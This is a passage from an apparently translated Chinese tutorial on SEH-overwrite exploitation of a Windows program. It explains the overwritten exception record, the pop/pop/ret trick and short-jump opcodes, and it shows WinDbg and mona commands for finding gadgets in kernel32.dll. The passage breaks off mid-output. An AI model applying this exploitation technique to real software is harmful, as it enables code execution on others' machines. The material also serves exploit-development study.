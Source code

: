 看起来似乎覆写了第三个SEH节点：

```
0:000> dt _EXCEPTION_REGISTRATION_RECORD 002dfb2c
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x61616161 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x62626262     _EXCEPTION_DISPOSITION  +62626262

```

首先，确保esp+8总存在准确的重启进程的地址，再试一次。在检验完之后，我们需要找到一些指令如：

```
POP   reg32
POP   reg32
RET

```

思路是：被执行时，放入某段代码的地址来替代4个”b”字符，该代码将会对ESP进行加8操作（2条pop指令），接着提取通过ESP指向的值然后转移到那个地址。这确实是我们想要的，即，它将会转移到我们的”b”字符前面4个”a”字符右端。为了跳过”b”字符并转移到我们的shellcode上（我们的”c”字符），我们需要在”b”字符的前面放入一个jmp指令。

JMP操作码的简写是：

```
EB XX

```

XX的位置是一个被标记的字节。为了方便，我们添加一个标签：

```
here:
  EB XX

```

那操作码转移到here+2+XX的位置。例如，

```
  EB 00
there:

```

转移之后到了右边，即，到了there部分。

这是我们想要的：

![](http://drops.javaweb.org/uploads/images/7cbd91740187a1bba1317b064a66cd282503b00e.jpg)

90是NOP指令的操作码（no operation-不进行任何操作），但是因为那两个字节将会被跳过，所以我们可以使用任意指令的操作码。

现在让我们在kernel32.dll中找到 `pop/pop/ret`的地址：

```
0:000> !py mona findwild -s "pop r32#pop r32#ret" -m kernel32.dll
Hold on...
[+] Command used:
!py mona.py findwild -s pop r32#pop r32#ret -m kernel32.dll    

---------- Mona command started on 2015-03-18 20:33:46 (v2.0, rev 554) ----------
[+] Processing arguments and criteria
    - Pointer access level : X
    - Only querying modules kernel32.dll
[+] Type of search: str
[+] Searching for matches up to 8 instructions deep
[+] Generating module info table, hang on...
    - Processing modules
    - Done. Let's rock 'n roll.
[+] Started search (8 start patterns)
[+] Searching startpattern between 0x75dc0000 and 0x75ed0000
```